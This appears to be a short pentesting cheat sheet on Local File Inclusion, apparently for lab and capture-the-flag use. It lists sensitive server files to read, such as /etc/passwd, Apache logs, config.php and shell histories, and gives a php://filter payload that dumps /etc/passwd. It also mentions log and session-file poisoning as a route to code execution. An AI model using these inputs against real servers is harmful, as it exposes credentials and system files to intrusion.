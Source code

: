 # LFI

usually happens when you have dynamic content based on a parameter

## common files

```
/etc/knockd.conf
/etc/default/knockd
/etc/issue
/etc/motd
/etc/group
/etc/passwd
/var/www/html/.htaccess
/etc/httpd/logs/acces_log
/etc/httpd/logs/error_log
/var/www/logs/access_log
/var/www/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/var/log/apache/access_log
/var/log/apache2/access_log
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/access_log
/var/www/html/db.php
/var/www/html/db/db.php
/var/www/html/config.php
```

## user home directory and root

```
bash_history
.mysql_history
.my.cnf
.profile
```

## configuration files

`find / -type f 2>/dev/null | grep -i conf` db/db.php db.php session.php config.php mysql.conf

## common things during LFI

?page=php://filter/convert.base64-encode/resource=/etc/passwd User-Agent: Mozilla/5.0 like Gecko



LFI + php session file injection => RCE => [https://0xdf.gitlab.io/2020/03/28/htb-sniper.html](https://0xdf.gitlab.io/2020/03/28/htb-sniper.html)

